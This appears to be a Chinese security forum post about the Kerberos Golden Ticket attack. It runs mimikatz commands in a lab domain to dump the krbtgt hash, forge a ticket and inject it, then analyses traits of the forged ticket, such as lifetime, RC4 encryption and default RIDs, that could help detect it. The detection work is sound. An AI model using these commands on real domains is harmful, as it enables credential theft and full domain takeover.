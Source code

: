0x01 何为黄金票据
===========

Golden Ticket 攻击利用了Kerberos 身份验证协议中的一个漏洞，自 Windows 2000 以来，Microsoft 一直将其用作其默认身份验证协议

Kerberos 身份验证的正常工作方式

使用 Kerberos，用户永远不会直接对他们需要使用的各种服务（例如文件服务器）进行身份验证。相反， Kerberos 密钥分发中心 (KDC) 充当受信任的第三方身份验证服务。Active Directory 域中的每个域控制器都运行 KDC 服务。

具体来说，当用户进行身份验证时，KDC会发出一个票据授予票据 (TGT)，其中包括一个唯一的会话密钥和一个时间戳，该时间戳指定该会话的有效时间（通常为 8 或 10 小时）。当用户需要访问资源时，无需重新认证；他们的客户端机器只是发送 TGT 来证明用户最近已经通过身份验证。

0x02 mimikatz实行黄金票据攻击
=====================

域控制器：windows server 2012 R2 Standard

域用户：windows 10 专业版

伪造黄金票条件：

1、域名称

2、域的SID值

3、域的KRBTGT账号的HASH

4、伪造任意用户名

首先要提权，管理员账户运行mimikatz，使用下面命令导出krbtgt的hash

```js
mimikatz # privilege::debug 
mimikatz # lsadump::dcsync /domain:test.com /all /csv
mimikatz # lsadump::dcsync /domain:test.com /user:krbtgt
```

![1.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-189cc5a62285a86402ef287e0cf2085ae7b83e11.png)

使用mimikatz生成金票生成.kirbi文件并保存：

```js
kerberos::golden /admin:administrator /domain:test.com /sid:S-1-5-21-369729056-3910723598-3583767373 /krbtgt:ad000f5ff0d6d8a114d343f164691809 /ticket:ticket.kirbi
admin：伪造的用户名 
domain：域名称 
sid：SID值，注意是去掉最后一个-后面的值 
krbtgt：krbtgt的HASH值 
ticket：生成的票据名称
```

先测试一下，无法访问域控制器的共享文件夹

![2.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-81fab6cd73815c6a46189a59f75bda7abdfb7302.png)

用普通用户通过mimikatz中的kerberos::ptt功能将ticket.kirbi导入内存中，然后测试访问共享文件夹

```js
#mimikata注入票据
mimikatz # kerberos::purge 
mimikatz # kerberos::ptt ticket.kirbi
```

![3.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-80fd801952d0f65c0ea313bab5dca70da304f079.png)

测试结果，已经可以访问共享文件夹

![4.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-42636ef8c1c4a1ee4ae3c92e58d4e66ba39be177.png)

0x03 生成票据特征分析
=============

通过 klist 查看注入的票据（#1为注入的票据），通过查看对比可以看到一下异常点：

![5.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ece51566e8ac5b6fd8b3eec1d8e61596ba51e5e5.png)

分析票据特征
------

1、如果不加参数生成的票据默认时间是10年，并不是默认的8-10个小时，代码位置kuhl\_m\_kerberos.c第455行

![6.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-bfd12aac0a8900b6ac782223d6b1702c4831be4b.png)

2、结束时间与续订时间一致，正常票据的续订时间回超过结束时间，代码默认传入参数是这样的，代码位置kuhl\_m\_kerberos.c第455行

![7.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-c8bf8f9aa5f46debcc782eda4499806a08be42e1.png)

3、生成票据使用rc4加密方式，而查看上图#0票据，用户机器是支持更安全的AES-256加密的，流量上也可以看到机器支持更安全的AES-256的加密方式，却没有使用

![8.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-37392f32c47f2b4a3360844552fbc298b9de65e5.png)

ticket加密方式与域用户加密方式不同

![9.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-5cc568e06c23c04c96aa2fa1f55ef3c8c9d3ae38.png)

4、wireshark使用.keytab文件解密kerberos流量后，也是可以看到票据的时间信息（生成.keytab文件方法下面会放上链接）

![10.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-460ae6d1f8a1f58eabefcdc144162a29510c3fb2.png)

5、生成的黄金票据的用户名不重要，只与User RID和Group RID有关，这个参数是决定是否是域管理员权限，代码默认生成的user rid为500，group rid在代码里定义只有固定的几个，可以作为检测的点

```js
#在kuhl\_m\_kerberos\_pac.c文件的179行，group rid类型 
GROUP\_MEMBERSHIP 
kuhl\_m\_pac\_stringTogroups\_defaultGroups\[\] = {{ 513 , 
DEFAULT\_GROUP\_ATTRIBUTES}, { 512 , 
DEFAULT\_GROUP\_ATTRIBUTES}, { 520 , 
DEFAULT\_GROUP\_ATTRIBUTES}, { 518 , 
DEFAULT\_GROUP\_ATTRIBUTES}, { 519 , 
DEFAULT\_GROUP\_ATTRIBUTES},};
```

kuhl\_m\_kerberos.c文件第412行，默认user rid

![11.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-36ad9889c72a7940d5567fe38471ac02c88da4a7.png)

解开后的流量特征

![12.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e4385a10d7795af0b08250ebc3ccf6381f1ca569.png)

6、对比正常认证的pac\_info部分，mimikatz生成的只有3个部分（右图），正常认证会有四个（左图）

![13.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e36503a1486b391f284e5dec4cbf9a55f1c2f7dc.png)

0x04 最后
=======

1、后面这几张图片是远程到公司服务器的截图，本季搭建的域环境，wireshark没有解密成功，所以有“亿”点点糊，大佬们多担待

2、上面这些是需要检测引擎能达到完全解密kerberos协议，并且定时到处域环境的所有账号密码生成.keytab文件才能解密

3、红队大佬如果自定义mimikatz代码可以修改上面的数据特征，上面是基于默认情况下进行的特征分析

最后如有错误，希望大佬们指出。

0x05 参考链接：
==========

<https://docs.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-server-2003/cc772815(v=ws.10)>

<https://www.jianshu.com/p/4936da524040>

<https://www.cnblogs.com/Erma/p/10338675.html>

<http://cn-sec.com/archives/546065.html>

<https://github.com/gentilkiwi/mimikatz/tree/master/mimikatz>